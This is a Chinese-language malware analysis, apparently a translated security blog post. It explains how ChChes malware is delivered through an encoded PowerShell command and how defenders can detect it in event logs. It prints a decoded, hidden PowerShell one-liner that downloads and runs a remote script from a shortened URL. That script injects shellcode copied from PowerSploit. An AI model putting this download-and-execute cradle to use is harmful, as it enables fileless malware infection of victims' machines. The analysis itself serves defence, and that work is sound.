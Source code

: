“-enc”之后的PowerShell脚本被加密。下面是解码的脚本：

```
$2='-nop -w hidden -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString(''https://goo.gl/cpT1NW'')"';if([IntPtr]::Size -eq 8){$3 = $env:SystemRoot + "syswow64WindowsPowerShellv1.0powershell";iex "&amp; $3 $2";}else{iex "&amp; powershell $2";}
```

通过执行上述PowerShell脚本，从指定的URL下载了包含PowerShell脚本的文件。下载的脚本在32位的powershell.exe（syswow64  WindowsPowerShell  v1.0  powershell）中加载并执行。以32位执行的原因是包含在PowerShell脚本中的ChChes的汇编代码与64位环境不兼容。

<br>

**下载的PowerShell脚本的详细信息**

下载的PowerShell脚本部分是从PowerSploit（Invoke-Shellcode.ps1）复制的。PowerSploit是一个在远程主机上执行文件和命令的工具，被用于渗透测试。

下载的PowerShell脚本执行时，它将基于脚本中所包含的数据创建出一个文档文件，这个文档存储在％TEMP％文件夹中并且被没有隐藏。我们已经看到了不同类型的文档，包括Excel和World文档。

接下来，PowerShell中包含的ChChes代码被注入到powershell.exe中。注入的ChChes从C2服务器接收命令和模块，如上一篇博文所述。PowerShell脚本和注入的ChChes不会保存为受感染机器中的文件，ChChes本身只存在于内存中。

图2是PowerShell脚本的一部分。

图2：下载的PowerShell脚本

[![](./img/85676/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0102d2133a5da0e8fb.png)

<br>

**通过事件日志确认攻击痕迹**

在安装了PowerShell v5.0的环境（包括Windows 10）中，从远程服务器下载的PowerShell脚本将以默认设置记录在事件日志中（如图3所示）。当你回查时，请检查你的日志是否包含此类记录。

图3：在事件日志中记录的内容

[![](./img/85676/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011f172a4835a7e791.png)

此类日志还可以通过启用以下组策略在PowerShell v4.0（Windows 8.1的默认版本）中获取。

计算机配置 – &gt;管理模板 – &gt; Windows组件 – &gt; Windows PowerShell – &gt;打开PowerShell脚本块日志记录

<br>

**总结**

现在很普遍的是PowerShell脚本被用于攻击。如果您的事件日志配置未设置为记录PowerShell执行，建议您修改设置以准备应对此类攻击。此外，如果您不使用PowerShell，建议通过使用AppLocker等限制执行。

Shusei Tomonaga



**参考文献**

[1] PowerSploit [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 

<br>

**附录A：样本的SHA-256哈希值**

PowerShell脚本
